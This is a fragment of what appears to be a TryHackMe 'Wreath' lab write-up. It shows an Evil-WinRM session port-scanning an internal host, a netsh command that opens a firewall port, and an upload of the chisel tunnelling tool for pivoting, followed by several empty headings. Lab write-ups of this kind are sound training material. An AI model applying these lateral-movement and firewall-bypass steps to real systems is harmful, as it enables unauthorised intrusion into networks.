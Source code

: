 ```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50


Hostname      : 10.200.101.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 9/18/2022 2:36:24 AM
```

* * * 

## Personal PC Pivoting

We found a few open ports ont he personal PC. In order to access the ports we have to open the firewall on the git windows machine to be able to pivot using chisel. Using Evil win-rm for access and the netsh command to create a firewall rule.

Attacking machine

- `netsh advfirewall firewall add rule name="Chisel-0xskar" dir=in action=allow protocol=tcp localport=42069`
- `upload /home/oskar/Documents/TryHackMe/Wreath/tools/Pivoting/Windows/chisel_1.7.3_windows_amd64 c:\windows\temp\chisel-0xskar.exe`




* * * 

## 



* * * 

## 



* * * 

## 



* * * 

## 



* * * 

## 



* * * 

## 
